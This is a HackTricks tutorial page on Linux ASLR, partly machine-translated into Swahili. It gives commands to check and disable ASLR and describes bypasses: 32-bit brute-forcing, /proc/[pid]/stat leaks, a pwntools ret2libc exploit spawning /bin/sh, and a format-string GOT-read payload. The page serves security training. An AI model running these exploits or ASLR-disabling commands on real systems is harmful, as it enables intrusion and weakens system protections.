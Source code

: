 # ASLR

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**Address Space Layout Randomization (ASLR)** ni mbinu ya usalama inayotumika katika mifumo ya uendeshaji ili **kubadilisha anwani za kumbukumbu** zinazotumiwa na michakato ya mfumo na programu. Kwa kufanya hivyo, inafanya kuwa vigumu sana kwa mshambuliaji kutabiri eneo la michakato na data maalum, kama vile stack, heap, na maktaba, hivyo kupunguza aina fulani za mashambulizi, hasa buffer overflows.

### **Checking ASLR Status**

Ili **kuangalia** hali ya ASLR kwenye mfumo wa Linux, unaweza kusoma thamani kutoka kwenye faili ya `/proc/sys/kernel/randomize_va_space`. Thamani iliyohifadhiwa katika faili hii inaamua aina ya ASLR inayotumika:

* **0**: Hakuna kubadilisha. Kila kitu ni cha kudumu.
* **1**: Kubadilisha kwa njia ya kihafidhina. Maktaba zinazoshirikiwa, stack, mmap(), ukurasa wa VDSO zimebadilishwa.
* **2**: Kubadilisha kwa njia kamili. Mbali na vipengele vilivyobadilishwa kwa njia ya kihafidhina, kumbukumbu inayosimamiwa kupitia `brk()` imebadilishwa.

Unaweza kuangalia hali ya ASLR kwa amri ifuatayo:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Kuzima ASLR**

Ili **kuzima** ASLR, unapaswa kuweka thamani ya `/proc/sys/kernel/randomize_va_space` kuwa **0**. Kuzima ASLR kwa ujumla hakupendekezwi nje ya hali za majaribio au urekebishaji. Hapa kuna jinsi unavyoweza kuzikima:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Unaweza pia kuzima ASLR kwa utekelezaji kwa:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Kuwezesha ASLR**

Ili **kuezesha** ASLR, unaweza kuandika thamani ya **2** kwenye faili ya `/proc/sys/kernel/randomize_va_space`. Hii kwa kawaida inahitaji ruhusa za mzizi. Kuwezesha randomization kamili kunaweza kufanywa kwa amri ifuatayo:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Uendelevu Wakati wa Kurejesha**

Mabadiliko yaliyofanywa na amri za `echo` ni ya muda na yatarejelewa wakati wa kurejesha. Ili kufanya mabadiliko kuwa ya kudumu, unahitaji kuhariri faili ya `/etc/sysctl.conf` na kuongeza au kubadilisha mstari ufuatao:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Baada ya kuhariri `/etc/sysctl.conf`, tumia mabadiliko kwa:
```bash
sudo sysctl -p
```
This will ensure that your ASLR settings remain across reboots.

## **Bypasses**

### 32bit brute-forcing

PaX divides the process address space into **3 groups**:

* **Code and data** (initialized and uninitialized): `.text`, `.data`, and `.bss` —> **16 bits** of entropy in the `delta_exec` variable. This variable is randomly initialized with each process and added to the initial addresses.
* **Kumbukumbu** allocated by `mmap()` and **shared libraries** —> **16 bits**, named `delta_mmap`.
* **The stack** —> **24 bits**, referred to as `delta_stack`. However, it effectively uses **11 bits** (from the 10th to the 20th byte inclusive), aligned to **16 bytes** —> This results in **524,288 possible real stack addresses**.

The previous data is for 32-bit systems and the reduced final entropy makes possible to bypass ASLR by retrying the execution once and again until the exploit completes successfully.

#### Brute-force ideas:

* If you have a big enough overflow to host a **big NOP sled before the shellcode**, you could just brute-force addresses in the stack until the flow **jumps over some part of the NOP sled**.
* Another option for this in case the overflow is not that big and the exploit can be run locally is possible to **add the NOP sled and shellcode in an environment variable**.
* If the exploit is local, you can try to brute-force the base address of libc (useful for 32bit systems):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Ikiwa unashambulia seva ya mbali, unaweza kujaribu **kuvunjia nguvu anwani ya kazi ya `libc` `usleep`**, ukipitia kama hoja 10 (kwa mfano). Ikiwa kwa wakati fulani **seva inachukua sekunde 10 zaidi kujibu**, umepata anwani ya kazi hii.

{% hint style="success" %}
Katika mifumo ya 64bit, entropy ni ya juu zaidi na hii haiwezekani.
{% endhint %}

### Taarifa za Mlokole (`/proc/[pid]/stat`)

Faili **`/proc/[pid]/stat`** ya mchakato daima inasomeka na kila mtu na ina **maelezo ya kuvutia** kama:

* **startcode** & **endcode**: Anwani juu na chini na **TEXT** ya binary
* **startstack**: Anwani ya mwanzo wa **stack**
* **start\_data** & **end\_data**: Anwani juu na chini ambapo **BSS** iko
* **kstkesp** & **kstkeip**: Anwani za sasa za **ESP** na **EIP**
* **arg\_start** & **arg\_end**: Anwani juu na chini ambapo **cli arguments** ziko.
* **env\_start** &**env\_end**: Anwani juu na chini ambapo **env variables** ziko.

Kwa hivyo, ikiwa mshambuliaji yuko kwenye kompyuta moja na binary inayoshambuliwa na binary hii haitarajii overflow kutoka kwa hoja za moja kwa moja, bali kutoka kwa **ingizo tofauti ambalo linaweza kutengenezwa baada ya kusoma faili hii**. Inawezekana kwa mshambuliaji **kupata anwani kadhaa kutoka kwa faili hii na kujenga offsets kutoka kwao kwa ajili ya shambulio**.

{% hint style="success" %}
Kwa maelezo zaidi kuhusu faili hii angalia [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) ukitafuta `/proc/pid/stat`
{% endhint %}

### Kuwa na leak

* **Changamoto ni kutoa leak**

Ikiwa umepatiwa leak (changamoto rahisi za CTF), unaweza kuhesabu offsets kutoka kwake (ukidhani kwa mfano unajua toleo halisi la libc linalotumika katika mfumo unaoshambulia). Mfano huu wa shambulio umetolewa kutoka [**mfano kutoka hapa**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (angalia ukurasa huo kwa maelezo zaidi):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Kwa kutumia overflow ya buffer, itakuwa inawezekana kutumia **ret2plt** kuhamasisha anwani ya kazi kutoka kwa libc. Angalia:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

Kama ilivyo katika ret2plt, ikiwa una kusoma bila mpangilio kupitia udhaifu wa format strings, inawezekana kuhamasisha anwani ya **kazi ya libc** kutoka kwa GOT. Mfano ufuatao [**ni kutoka hapa**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
You can find more info about Format Strings arbitrary read in:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

Jaribu kupita ASLR kwa kutumia anwani ndani ya stack:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
